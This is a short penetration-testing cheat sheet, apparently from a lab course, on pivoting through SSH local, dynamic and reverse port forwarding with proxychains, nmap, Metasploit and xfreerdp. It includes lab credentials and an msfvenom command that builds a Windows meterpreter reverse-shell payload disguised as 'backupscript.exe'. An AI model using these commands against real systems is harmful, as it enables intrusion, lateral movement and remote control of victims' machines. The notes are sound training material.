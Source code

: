 # Port Forwarding SSH

## Dynamic Port Forwarding with SSH and SOCKS Tunneling

### Local Port Forward

```c
$ ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```

#### Confirming Port Forward with Netstat

```c
$ netstat -antp | grep 1234
```

### Forwarding Multiple Ports

```c
$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

### &#x20; Enabling Dynamic Port Forwarding with SSH

```c
$ ssh -D 9050 ubuntu@10.129.202.64
```

#### config /etc/proxychains.conf

```c
cat /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

#### &#x20;Nmap with Proxychains

```c
proxychains nmap -v -sn 172.16.5.1-200
```

### Metasploit with Proxychains

```c
proxychains msfconsole
```

#### Using rdp\_scanner Module

```shell-session
msf6 > search rdp_scanner
```

### Using xfreerdp with Proxychains

```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Reverse Port Forwarding with SSH

### Creating a Windows Payload with msfvenom

```c
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

```c
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
